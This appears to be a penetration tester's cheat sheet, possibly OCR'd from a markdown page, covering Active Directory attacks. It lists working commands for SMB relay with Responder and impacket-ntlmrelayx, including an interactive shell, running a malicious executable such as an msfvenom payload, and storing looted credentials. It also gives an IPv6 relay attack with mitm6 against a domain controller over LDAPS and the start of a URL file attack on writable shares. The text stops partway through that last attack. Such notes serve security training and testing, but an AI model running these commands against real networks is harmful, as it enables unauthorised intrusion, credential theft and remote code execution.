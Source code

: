 - Check for enabled and not required
    
OR
- crackmapexec smb [network]
    
- Check for signing:False
    
- Add hosts to targets file (separate lines)
    
OR
- crackmapexec smb [network] --gen-relay-list [targets file]
    
- edit /etc/responder/Responder.conf
    
- Change SMB = and HTTP = from On to Off
    
- responder -I [interface] -dwP (optional -v)
    
AND
- impacket-ntlmrelayx -tf [targets file] -smb2support
    
- -i ⇒ interactive smb shell
    
- Wait for connection – note “started interactive” port
    
- nc -nv 127.0.0.1 [port]
    
- -e [malicious].exe ⇒ execute file
    
- Can be msfvenom payload for example
    
- -c "[command]" ⇒ execute command
    
- -l [directory] ⇒ store loot in directory (see IPv6 attacks) → useful if credentials are non-admin
    
  
# IPv6 Attack
[https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- Install MITM6 → download from [GitHub](https://github.com/dirkjanm/mitm6), cd to directory, and pip3 install .
    
- If it fails, try normal pip
    
- mitm6 -d [domain]
    
AND
- impacket-ntlmrelayx -6 -t ldaps://[DC IP] -wh bogus.[domain] -l [directory]
    
- cd to directory and firefox [file] to see info
    
- look for username and password for newly created user in ntlmrelayx prompt
    
  
# URL File Attack
Note: must have access to a writable SMB share
- upload file that starts with @ or ~ symbol and ends in .url: @test.url
    
- (@ or ~) ensures it shows up at top when user opens share
    